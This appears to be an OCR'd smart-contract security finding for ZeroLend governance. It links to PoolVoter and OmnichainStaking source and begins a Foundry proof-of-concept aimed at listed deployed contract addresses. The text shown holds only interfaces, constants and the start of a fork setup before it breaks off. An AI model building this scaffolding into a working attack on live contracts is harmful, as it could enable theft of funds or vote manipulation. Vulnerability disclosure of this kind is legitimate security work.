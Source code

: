 ## References

[https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L98](https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L98)  [https://github.com/zerolend/governance/blob/main/contracts/locker/OmnichainStaking.sol#L60](https://github.com/zerolend/governance/blob/main/contracts/locker/OmnichainStaking.sol#L60)

### Proof of concept

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "./interface.sol";
/*
poolVoter 0x3818eAb6Ca8Bf427222bfACFA706c514145F4104
lockerToken 0x92b0d1Cc77b84973B7041CB9275d41F09840eaDd
omnichainStaking 0x9eb52339B52e71B1EFD5537947e75D23b3a7719B
zero 0x9f62EE65a8395824Ee0821eF2Dc4C947a23F0f25
vestedZeroNFT 0x20BBE62B175134D21b10C157498b663F048672bA
*/

IERC20 constant zero = IERC20(0x9f62EE65a8395824Ee0821eF2Dc4C947a23F0f25);
isakte constant stake = isakte(0x9eb52339B52e71B1EFD5537947e75D23b3a7719B);
PoolVoter constant poolVoter = PoolVoter(0x3818eAb6Ca8Bf427222bfACFA706c514145F4104);
iLockerToken constant lockerToken = iLockerToken(0x92b0d1Cc77b84973B7041CB9275d41F09840eaDd);

interface iLockerToken {
    function underlying() external returns (address);
    function createLock(
        uint256 _value,
        uint256 _lockDuration,
        bool _stakeNFT
    ) external returns (uint256);
    function safeTransferFrom(address,address,uint256,bytes memory) external;
}

interface isakte {
    function unstakeToken(uint256 tokenId) external;
}

interface PoolVoter {
    function pools() external returns (address[] memory);
    function owner() external returns (address);
    function length() external returns (uint256);
    function weights(address) external returns (uint256);
    function registerGauge(
        address _asset,
        address _gauge
    ) external;
    function vote(
        address[] calldata _poolVote,
        uint256[] calldata _weights
    ) external;
}


contract Main is Test {
    function setUp() public {
        vm.createSelectFork("http://127.0.0.1:8545");


```